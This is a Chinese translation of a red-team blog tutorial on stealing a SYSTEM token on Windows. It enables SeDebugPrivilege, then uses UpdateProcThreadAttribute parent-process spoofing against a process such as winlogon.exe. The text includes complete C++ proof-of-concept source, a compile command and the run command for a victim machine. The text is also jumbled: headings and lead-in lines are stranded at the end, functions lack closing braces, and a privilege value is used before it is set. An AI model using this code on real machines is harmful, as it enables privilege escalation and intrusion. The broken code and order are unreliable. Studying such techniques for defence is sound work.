






\newpage
\subsection{恶意软件开发：持久化（第 17 部分）——APT 技术：通过 UpdateProcThreadAttribute 窃取令牌（简单的 C++ 示例）}

各位网络安全爱好者和白帽黑客，你们好！

今天我将描述一种从 Windows Vista 开始可用的替代方法。

{:class="img-responsive"}

### UpdateProcThreadAttribute

在我的教程的第一部分中，我们只是做了经典技巧：启用 `SE_DEBUG_PRIVILEGE`，从任意系统进程打开一个令牌（这对受保护进程同样有效），复制该令牌，调整其上的权限，然后用这个令牌进行模拟。

今天我们可以使用更简单的技巧。

微软在 Vista 中实现了在创建新进程时指定显式父进程的能力，从而允许提权后的进程保持为调用者的子进程。

通常，在 UAC 场景下，你必须为新进程显式提供一个令牌。

唯一的条件是，父进程的句柄必须具有 `PROCESS_CREATE_PROCESS` 访问权限。

因此，我们只需以 `PROCESS_CREATE_PROCESS` 访问权限打开某个系统进程。

```cpp
BOOL UpdateProcThreadAttribute(
  LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  DWORD  dwFlags,
  DWORD_PTR  Attribute,
  PVOID  lpValue,
  SIZE_T  cbSize,
  PVOID  lpPreviousValue,
  PSIZE_T  lpReturnSize
);
```

然后用这个句柄调用 `UpdateProcThreadAttribute`。

结果是，你的进程会从该系统进程继承令牌。

而要让这一切工作，你需要的只是 `SE_DEBUG_PRIVILEGE`。

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;

```

然后，以 `PROCESS_CREATE_PROCESS` 访问权限打开一个你想窃取其访问令牌的进程：

```cpp
HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
```

之后，把这个句柄用于 `UpdateProcThreadAttribute`：

```cpp
ZeroMemory(&si, sizeof(STARTUPINFOEXW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
InitializeProcThreadAttributeList(NULL, 1, 0, &size);
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
  GetProcessHeap(),
  0,
  size
);
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
UpdateProcThreadAttribute(si.lpAttributeList, 0, 
PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXW);
```

那么，这段逻辑的完整源代码如下：

```cpp
res = CreateProcessW(app, NULL, NULL, NULL, true, 
EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
(LPSTARTUPINFOW)&si, &pi);
printf(res ? "successfully create process :)\n" : 
"failed to create process :(\n");
```

如你所见，代码与上一部分略有不同。

```cpp
/*
hack.cpp
token theft via
UpdateProcThreadAttribute
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/28/token-theft-2.html
*/
#include <windows.h>
#include <stdio.h>
#include <iostream>

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;

// create process
BOOL createProcess(DWORD pid, LPCWSTR app) {
  STARTUPINFOEXW si;
  PROCESS_INFORMATION pi;
  SIZE_T size;
  BOOL res = TRUE;
  HANDLE ph = OpenProcess(PROCESS_CREATE_PROCESS, false, pid);
  printf(ph ? "successfully open process :)\n" : 
  "failed to open process :(\n");

  ZeroMemory(&si, sizeof(STARTUPINFOEXW));
  ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
  InitializeProcThreadAttributeList(NULL, 1, 0, &size);
  si.lpAttributeList = 
  (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, size);
  InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &size);
  UpdateProcThreadAttribute(si.lpAttributeList, 0, 
  PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &ph, sizeof(HANDLE), NULL, NULL);
  si.StartupInfo.cb = sizeof(STARTUPINFOEXW);

  res = CreateProcessW(app, NULL, NULL, NULL, true, 
  EXTENDED_STARTUPINFO_PRESENT | CREATE_NEW_CONSOLE, NULL, NULL, 
  (LPSTARTUPINFOW)&si, &pi);
  printf(res ? "successfully create process :)\n" : 
  "failed to create process :(\n");
  return res;

int main(int argc, char** argv) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  DWORD pid = atoi(argv[1]);
  if (!createProcess(pid, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
  return 0;

```

这段代码只是一个粗糙的 PoC，为了简单起见，我运行的是 `mspaint.exe`。

### 演示

我们来看看一切的实际运行。

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{:class="img-responsive"}

然后，在受害者的机器上运行它：

```powershell
.\hack.exe <PID>
```

{:class="img-responsive"}

举个例子，你可以窃取 `winlogon.exe`（PID：544）的访问令牌：

{:class="img-responsive"}

{:class="img-responsive"}

{:class="img-responsive"}

如你所见，一切运行完美！

我希望这篇文章对入门级的网络安全从业者（甚至可能是专业人士）能有一点帮助，同时也能让蓝队成员了解这个有趣的技巧，并为红队成员的武器库增添一件武器。

[Local Security Authority](https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication)  
[Privilege Constants](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)  
[LookupPrivilegeValue](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-lookupprivilegevaluea)  
[AdjustTokenPrivileges](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges)  
[UpdateProcThreadAttribute](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)  
[CreateProcessW](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw)  
[APT techniques: Token theft. Part 1](/tutorial/2022/09/25/token-theft-1.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-28-token-theft-2)

这篇文章是我自己对一个比较有趣的 APT 技术的研究结果：通过 `UpdateProcThreadAttribute` 窃取令牌。

在上一篇文章中，我写过通过 `DuplicateTokenEx` 和 `CreateProcessWithTokenW` 进行经典令牌窃取。

如果你不提供令牌，新进程将从指定的父进程继承令牌。

### 技术：实战示例

首先，有时你必须在当前的权限集中打开 SeDebugPrivilege：

最后，创建进程：

编译我们的 PoC：
